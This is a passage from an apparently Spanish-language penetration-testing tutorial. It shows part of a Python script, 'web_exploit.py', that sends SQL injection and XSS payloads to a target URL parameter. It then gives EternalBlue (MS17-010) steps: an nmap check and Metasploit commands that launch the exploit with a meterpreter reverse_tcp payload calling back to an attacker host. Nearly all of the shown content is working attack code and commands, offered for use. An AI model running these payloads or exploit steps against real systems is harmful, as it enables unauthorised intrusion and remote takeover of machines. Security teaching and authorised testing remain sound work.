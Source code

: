 ```python
            response = requests.post(url, data=data, timeout=5)
            if "error" in response.text.lower() or "mysql" in response.text.lower():
                print(f"[!] Posible SQL injection con payload: {payload}")
        except:
            continue

def test_xss(url, param):
    """Test básico de XSS"""
    payloads = [
        "<script>alert('XSS')</script>",
        "<img src=x onerror=alert('XSS')>",
        "javascript:alert('XSS')"
    ]
    
    print(f"[+] Testeando XSS en {param}")
    
    for payload in payloads:
        data = {param: payload}
        try:
            response = requests.post(url, data=data, timeout=5)
            if payload in response.text:
                print(f"[!] Posible XSS con payload: {payload}")
        except:
            continue

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Uso: python3 web_exploit.py <URL> <parameter>")
        sys.exit(1)
    
    url = sys.argv[1]
    param = sys.argv[2]
    
    test_sql_injection(url, param)
    test_xss(url, param)
```

## 🗃️ Explotación de Servicios SMB

### 1. EternalBlue (MS17-010)

```bash
# Verificar vulnerabilidad
nmap --script smb-vuln-ms17-010 192.168.1.100

# Explotar con Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
exploit
```
